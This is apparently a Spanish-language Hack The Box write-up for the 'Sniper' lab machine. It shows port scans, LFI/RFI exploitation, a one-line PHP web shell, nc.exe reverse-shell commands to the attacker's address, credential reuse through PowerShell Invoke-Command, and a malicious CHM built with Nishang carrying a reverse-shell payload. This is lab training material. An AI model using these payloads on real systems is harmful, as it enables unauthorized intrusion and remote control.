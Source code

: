 ```yaml
---
layout: post
title: Sniper
date: 2022-11-23
categories: ["HTB"]
thumbnail: "assets/images/Sniper.png"
---
```


# Sniper [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.151 -oG allPorts`
- `nmap -sCV -p80,135,139,445,49667 10.10.10.151 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Inspección

Cuando entramos en la página vemos varios apartados, sólo dos de ellos redireccionan a una ruta diferente del sistema, el apartado `Our Services` tiene un parámetro llamado `lang` el cual apunta a un archivo `PHP` de diferente idioma, vamos a ver si es vulnerable a `LFI`.

Para ello cambiaremos `lang=blog-en.php` por `lang=\windows\win.ini`, la página se nos queda en blanco, si inspeccionamos el código de la página veremos al final del todo el resultado, por lo que es vulnerable.

Vamos a probar si también es vulnerable a `RFI`. Para ello nos montaremos un servidor con el demonio de `Samba`, de lo contrario no funcionará. Crearé un archivo con una frase y lo meteré en la carpeta de `Samba`, teniendo esto cambiaremos el parámetro anterior por `lang=\\10.10.14.15\test.txt`.

Bien! Vemos que también es vulnerable a `RFI`, vamos a crearnos una Web Shell para poder ejecutar comandos en la Web, para ello crearemos el siguiente archivo en `PHP`:

```
<?php system($_REQUEST['cmd']); ?>
```

En mi caso lo llamé `cmd.php` para identificarlo mejor. Una vez creado lo llevamos a la carpeta compartida por `Samba` y cambiaremos de nuevo el parámetro `lang`.

- `http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami`


```
</html>
nt authority\iusr
</body>
</html>
```
Bien! Ya tenemos ejecución remota de comandos!

### Shell

Para obtener la Shell utilizaremos el archivo `PHP` que nos habíamos creado más `NC`,
de tal manera que el comando que ejecutaremos será NC para entablarnons la conexión.

Para ello utilicé la versión de `NC` de `32 bits`, el cual pude encontrar en [`GitHub`](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Una vez descargado lo volveremos a copiar en la carpeta compartida de `Samba`.

Una vez todo lo anterior esté preparado nos pondremos en escucha por el puerto que queramos, en mi caso `4444`.

- `rlwrap -cAr nc -nlvp 4444`

Bien, ahora podemos pasar de nuevo a la web, pero ahora cambiaremos un poco el anterior comando, dejando el parámetro `lang` así:

```
lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444
```

Tras unos segundos de espera veremos que nos pudimos entablar la conexión.

Fantástico! Ya estamos en la máquina como `IUSR`!

### Subida de privilegios #1

Bien, antes de ser administradores de la máquina tenemos que pasar por otro usuario, en este caso por `Chris`. Gracias a `C:\Users` pude ver a los usuarios, por eso sé que es `Chris`.

Con esto sabido inspeccionamos un poco el directorio `C:\inetpub\wwwroot\user`, vemo que hay un archivo llamado `db.php` el cual contiene una contraseña para conectarse a la Base de Datos. Nos copiamos la contraseña.

Una vez hecho esto nos pasamos a `PowerShell`, para ello ejecutamos `powershell` y ejecutamos `hostname` para ver el `HostName` de la máquina, ahora veremos para qué.

Para ver si la contraseña introducida es la correcta haremos lo siguiente:

```
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```

Como vemos al ejecutar el comando nos dice que somos `Chris`, por lo que la contraseña es correcta. Para ganar una Shell como `Chris` hay que hacerle un pequeño cambio al último comando ejecutado, de tal manera que llamaremos al `NC` que habíamos subido con anterioridad a `Samba`.

Antes de eso deberíamos ponernos en escucha con `NC`, en mi caso será por el puerto `443`. Ahora sí, podemos ejecutar el siguiente comando:

```
PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.15\share\nc.exe -e cmd 10.10.14. 443 } -Credential $cred -Computer localhost
```
Estupendo! Ya tenemos una Shell como `Chris`!

### Subida de privilegios #2

Si nos vamos a la raíz veremos una carpeta llamada `Docs` y dentro de ella un archivo `TXT` con el nombre de `note.txt`. Vamos a mirar a ver qué nos dice:

> Hi Chris, Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
>
> Regards, Sniper CEO.

Como vemos le está diciendo a `Chris` que sus habilidades en `PHP` son muy malas, que por favor hable con `YamiTenshi` para que él le haga clases. También le dice que espera que esté preparado para la documentación de la nueva app, que la suelte aquí cuando la haya terminado.

Si nos vamos a las descargas de `Chris` veremos un archivo llamado `instructions.chm`, si queremos ese archivo nos lo tenemos que pasar a nuestra máquina `Windows`.

Una vez nos lo hayamos pasado veremos un docuemnto, en verdad no tiene ningún tipo de relevancia más allá de que es un archivo `CHM` y `Nishang` tiene una herramienta ([`Out-Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)) que crea archivos `CMH` armados.

Para poder utilizar la herramienta nos la tenemos que descargar del repositorio de [`Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) e importarlo en `PowerShell`, para ello haremos lo siguiente en nuestra máquina `Windows`:

- `Import-Module .\Out-CHM.ps1`

Una vez hecho lo anterior podemos pasar al siguiente paso, crear nuestro archivo `CHM` malicioso, para ello ejecutaremos lo siguiente:

```
Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Como vemos estamos especificando una ruta, esa ruta será la que se utilizará en la máquina víctima y donde se alojará nuestro `NC`.

Se nos creará un `doc.chm`, lo vamos a pasar a nustra máquina de atacante y de ahí a la máquina víctima con `Samba`.

- `copy \\10.10.14.15\share\doc.chm \Docs\`

Bien, también nos copiaremos el `NC`, aunque en la carpeta que hayamos especificado antes:

- `copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\`

Bien! Ya estamos listos, nos ponemos en escucha con `NC` por el puerto especificado anteriormente:

- `rlwrap -cAr nc -nlvp 4444`

Enhorabuena! Estamos en la máquina como `Administrator`! Esto se nos ha complicado un poco!
